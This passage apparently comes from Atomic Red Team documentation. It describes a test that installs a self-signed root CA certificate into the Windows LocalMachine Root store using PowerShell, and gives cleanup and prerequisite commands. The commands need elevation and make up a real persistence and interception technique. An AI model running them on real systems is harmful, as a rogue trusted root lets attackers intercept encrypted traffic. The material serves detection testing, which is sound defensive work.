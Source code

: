 #### Inputs:

| Name     | Description             | Type | Default Value |
| -------- | ----------------------- | ---- | ------------- |
| pfx_path | Path of the certificate | path | rootCA.cer    |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$cert = Import-Certificate -FilePath #{pfx_path} -CertStoreLocation Cert:\LocalMachine\My
Move-Item -Path $cert.PSPath -Destination "Cert:\LocalMachine\Root"
```

#### Cleanup Commands:

```powershell
try {
   $cert = Import-Certificate -FilePath #{pfx_path} -CertStoreLocation Cert:\LocalMachine\My -ErrorAction Ignore
   Get-ChildItem Cert:\LocalMachine\My\$($cert.Thumbprint) -ErrorAction Ignore | Remove-Item -ErrorAction Ignore
   Get-ChildItem Cert:\LocalMachine\Root\$($cert.Thumbprint) -ErrorAction Ignore | Remove-Item -ErrorAction Ignore
}
catch { }
```

#### Dependencies: Run with `powershell`!

##### Description: Verify the certificate exists. It generates if not on disk.

##### Check Prereq Commands:

```powershell
if (Test-Path #{pfx_path}) { exit 0 } else { exit 1 }
```

##### Get Prereq Commands:

```powershell
$cert = New-SelfSignedCertificate -DnsName atomicredteam.com -CertStoreLocation cert:\LocalMachine\My
Export-Certificate -Type CERT -Cert  Cert:\LocalMachine\My\$($cert.Thumbprint) -FilePath #{pfx_path}
Get-ChildItem Cert:\LocalMachine\My\$($cert.Thumbprint) | Remove-Item
```

<br/>
<br/>

## Atomic Test #6 - Install root CA on Windows with certutil
